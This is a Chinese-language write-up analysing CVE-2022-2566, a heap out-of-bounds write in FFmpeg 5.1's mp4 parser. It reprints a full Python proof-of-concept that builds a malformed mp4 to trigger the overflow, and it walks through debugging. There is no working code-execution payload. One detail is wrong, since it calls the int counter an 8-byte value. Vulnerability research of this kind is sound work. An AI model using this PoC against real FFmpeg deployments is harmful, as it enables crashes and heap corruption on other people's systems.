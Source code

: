 # CVE-2022-2566 分析和复现

> FFmpeg v5.1 堆越界内存写入

## 0x00 背景

`FFmpeg`  https://www.ffmpeg.org/

它视频处理最常用的开源软件。它功能强大，用途广泛，大量用于视频网站和商业软件（比如 Youtube 和 iTunes），也是许多音频和视频格式的标准编码/解码实现。

在 `libavformat/mov.c `中发现了影响 FFmpeg 自 5.1 版或提交 ab77b878f1205225c6de1370fb0e998dbcc8bc69 的堆越界写入。

Google的分析：[FFmpeg: Heap Out-Of-Bounds Write in build_open_gop_key_points · Advisory · google/security-research (github.com)](https://github.com/google/security-research/security/advisories/GHSA-vhxg-9wfx-7fcj)

该漏洞被定位是高危漏洞（*High*），攻击者可以通过恶意 mp4 文件导致远程代码执行（RCE）。

## 0x01 漏洞分析

根据CVE描述，可以知道漏洞在 ab77b878f1205225c6de1370fb0e998dbcc8bc69 提交中引入。

而对应的修复commit为：6f53f0d09ea4c9c7f7354f018a87ef840315207d。

对应的修复：

[avformat/mov: Check count sums in build_open_gop_key_points() · FFmpeg/FFmpeg@6f53f0d (github.com)](https://github.com/FFmpeg/FFmpeg/commit/6f53f0d09ea4c9c7f7354f018a87ef840315207d)

![fix](https://pic1.imgdb.cn/item/634fc0f416f2c2beb16005d9.png)

可以看到关键代码为：

````c
    for (uint32_t i = 0; i < sc->ctts_count; i++)
        sc->sample_offsets_count += sc->ctts_data[i].count;
````

而变量` sc->sample_offsets_count`被定义为`int`

````c
int sample_offsets_count;
````

所以`sc->sample_offsets_count`为8字节数，如果最大值超过`INT_MAX`则会发生整数溢出。

这个整数溢出会影响接下来malloc的申请：

````c
sc->sample_offsets = av_calloc(sc->sample_offsets_count, sizeof(*sc->sample_offsets));
````

````c
void *av_calloc(size_t nmemb, size_t size) av_malloc_attrib av_alloc_size(1, 2);
````

![](https://pic1.imgdb.cn/item/634ff67a16f2c2beb1bd971d.png)

如果出现整数溢出导致` sc->sample_offsets_count == 0`就会导致`av_calloc`申请最小的chunk

也就是`sc->sample_offsets`会指向一个0x20的chunk

之后会把每个ctts的duration写入这个chunk中：

````c
    for (uint32_t i = 0; i < sc->ctts_count; i++)
        for (int j = 0; j < sc->ctts_data[i].count; j++)
             sc->sample_offsets[k++] = sc->ctts_data[i].duration;
````

如果`sc->ctts_data[i].duration`过长，就会产生堆溢出。

## 0x02 POC调试

这里给出Google安全研究员提供的POC

````python
#!/usr/bin/env python3
import struct
import sys

HEVC_NAL_CRA_NUT = 21


def atom(tag, chunk):
  data = struct.pack('>I', len(chunk) + 8)
  data += tag
  data += chunk
  return data


def atom_ftyp():
  data = b''
  data += b'mp42'  # type
  data += struct.pack('>L', 0)  # minor_ver
  return atom(b'ftyp', data)


def atom_moov(nested):
  return atom(b'moov', nested)


def atom_trak(nested):
  return atom(b'trak', nested)


def atom_hev1():
  return atom(b'hev1', b'')


def atom_stsd(nested):
  data = b''
  data += struct.pack('<I', 0)  # version & flags
  data += struct.pack('>I', 1)  # entries
  data += nested
  data += b'\0' * 70
  return atom(b'stsd', data)


def atom_sgpd():
  data = b''
  data += struct.pack('<I', 1)  # version & flags
  data += b'sync'  # grouping_type
  data += struct.pack('>I', 1)  # default_length
  data += struct.pack('>I', 1)  # entry_count
  # entry 0
  data += struct.pack('>B', HEVC_NAL_CRA_NUT)  # nal_unit_type
  return atom(b'sgpd', data)


def atom_sbgp():
  data = b''
  data += struct.pack('<I', 0)  # version & flags
  data += b'sync'  # grouping_type
  data += struct.pack('>I', 2)  # entries
  # entry 0
  data += struct.pack('>I', 1)  # sample_count
  data += struct.pack('>I', 1)  # group_description_index
  # entry 1
  data += struct.pack('>I', 0xffffffff)  # sample_count
  data += struct.pack('>I', 1)  # group_description_index
  return atom(b'sbgp', data)


def atom_ctts():
  data = b''
  data += struct.pack('<I', 0)  # version & flags
  data += struct.pack('>I', 4)  # entries
  # entry 0
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
  # entry 1
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
  # entry 2
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
  # entry 3
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
  return atom(b'ctts', data)


def main():
  if len(sys.argv) != 2:
    print('Usage: poc.py out.mp4')
    return -1

  data = atom_ftyp() + atom_moov(
      atom_trak(
          atom_stsd(atom_hev1()) + atom_sgpd() + atom_sbgp()
          + atom_ctts()
      ))

  open(sys.argv[1], 'wb').write(data)


if __name__ == '__main__':
  main()
````

这里可以看到，生成的这个mp4文件中存在4个`ctts`结构体，每个的count和duration为：

````python
  data += struct.pack('>I', 0x40000000)  # count
  data += struct.pack('>I', 0x00414141)  # duration
````

也就是会使得`sc->ctts_data[i].count == 0x40000000 `

而我们一共有4个`ctts`结构，也就是`0x40000000*4 = 0x100000000`

而`INT(0x100000000) == 0`，所以这个运行这个poc得到的mp4文件就会使得`ffmpeg`出现整数溢出问题。

我们编译一份存在漏洞版本的`ffmpeg`，编译之后得到的二进制文件``ffmpeg_g``就是有GDB调试符号的程序。

在`build_open_gop_key_points()`函数打断点：

![](https://pic1.imgdb.cn/item/634ff85516f2c2beb1c0bf1a.png)

![](https://pic1.imgdb.cn/item/634ffd0716f2c2beb1c8b975.png)

可以看到：

![](https://pic1.imgdb.cn/item/634ffd2116f2c2beb1c8e8e0.png)

之后运行这个for循环：

![](https://pic1.imgdb.cn/item/634ffd6016f2c2beb1c95a26.png)

也就是整数溢出使得这个值为0，也就是`av_calloc`会申请出一个0x20的chunk

![](https://pic1.imgdb.cn/item/634ffe4116f2c2beb1caf53d.png)

![](https://pic1.imgdb.cn/item/634ffeac16f2c2beb1cbafe2.png)

![](https://pic1.imgdb.cn/item/634ffeb516f2c2beb1cbbf45.png)

````c
    for (uint32_t i = 0; i < sc->ctts_count; i++)
        for (int j = 0; j < sc->ctts_data[i].count; j++)
             sc->sample_offsets[k++] = sc->ctts_data[i].duration;
````

但是由于`sc->ctts_data[i].count == 0x40000000`，所以会直接覆盖接下来的`0x40000000*4`个字节的堆区，产生堆溢出Heap overflow

## 0x03 利用

> 暂时没有想到好的利用方法，，，，

